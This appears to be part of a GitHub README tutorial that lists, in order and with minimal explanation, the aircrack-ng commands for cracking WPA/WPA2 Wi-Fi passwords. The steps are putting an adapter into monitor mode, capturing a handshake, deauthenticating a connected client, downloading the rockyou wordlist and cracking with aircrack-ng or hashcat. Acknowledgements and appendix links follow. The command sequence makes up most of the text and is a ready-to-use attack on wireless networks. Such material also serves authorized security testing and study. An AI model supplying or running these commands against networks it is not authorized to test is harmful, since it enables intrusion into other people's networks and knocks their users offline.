 Below is a list of all of the commands needed to crack a WPA/WPA2 network, in order, with minimal explanation.

```bash
# put your network device into monitor mode
airmon-ng start wlan0

# listen for all nearby beacon frames to get target BSSID and channel
airodump-ng mon0

# start listening for the handshake
airodump-ng -c 6 --bssid 9C:5C:8E:C9:AB:C0 -w capture/ mon0

# optionally deauth a connected client to force a handshake
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 -c 64:BC:0C:48:97:F7 mon0

########## crack password with aircrack-ng... ##########

# download 134MB rockyou.txt dictionary file if needed
curl -L -o rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt

# crack w/ aircrack-ng
aircrack-ng -a2 -b 9C:5C:8E:C9:AB:C0 -w rockyou.txt capture/-01.cap

########## or crack password with naive-hashcat ##########

# convert cap to hccapx
cap2hccapx.bin capture/-01.cap capture/-01.hccapx

# crack with naive-hashcat
HASH_FILE=hackme.hccapx POT_FILE=hackme.pot HASH_TYPE=2500 ./naive-hashcat.sh
```

## Appendix

The response to this tutorial was so great that I've added suggestions and additional material from community members as an [appendix](appendix.md). Check it out to learn how to:

- Capture handshakes and crack WPA passwords on MacOS/OSX
- Capture handshakes from every network around you with `wlandump-ng`
- Use `crunch` to generate 100+GB wordlists on-the-fly
- Spoof your MAC address with `macchanger`

A [Chinese version](appendix.zh.md) of the appendix is also available.

## Attribution

Much of the information presented here was gleaned from [Lewis Encarnacion's awesome tutorial](https://lewiscomputerhowto.blogspot.com/2014/06/how-to-hack-wpawpa2-wi-fi-with-kali.html). Thanks also to the awesome authors and maintainers who work on Aircrack-ng and Hashcat. 

Overwhelming thanks to [neal1991](https://github.com/neal1991) and [tiiime](https://github.com/tiiime) for translating this tutorial into [Chinese](README.zh.md). Further shout outs to [yizhiheng](https://github.com/yizhiheng), [hiteshnayak305](https://github.com/hiteshnayak305), [enilfodne](https://github.com/enilfodne), [DrinkMoreCodeMore](https://www.reddit.com/user/DrinkMoreCodeMore), [hivie7510](https://www.reddit.com/user/hivie7510), [cprogrammer1994](https://github.com/cprogrammer1994), [0XE4](https://github.com/0XE4), [hartzell](https://github.com/hartzell), [zeeshanu](https://github.com/zeeshanu), [flennic](https://github.com/flennic), [bhusang](https://github.com/bhusang), [tversteeg](https://github.com/tversteeg), [gpetrousov](https://github.com/gpetrousov), [crowchirp](https://github.com/crowchirp) and [Shark0der](https://github.com/shark0der) who also provided suggestions and typo fixes on [Reddit](https://www.reddit.com/r/hacking/comments/6p50is/crack_wpawpa2_wifi_routers_with_aircrackng_and/) and GitHub. If you are interested in hearing some proposed alternatives to WPA2, check out some of the great discussion on [this](https://news.ycombinator.com/item?id=14840539) Hacker News post.''readme'
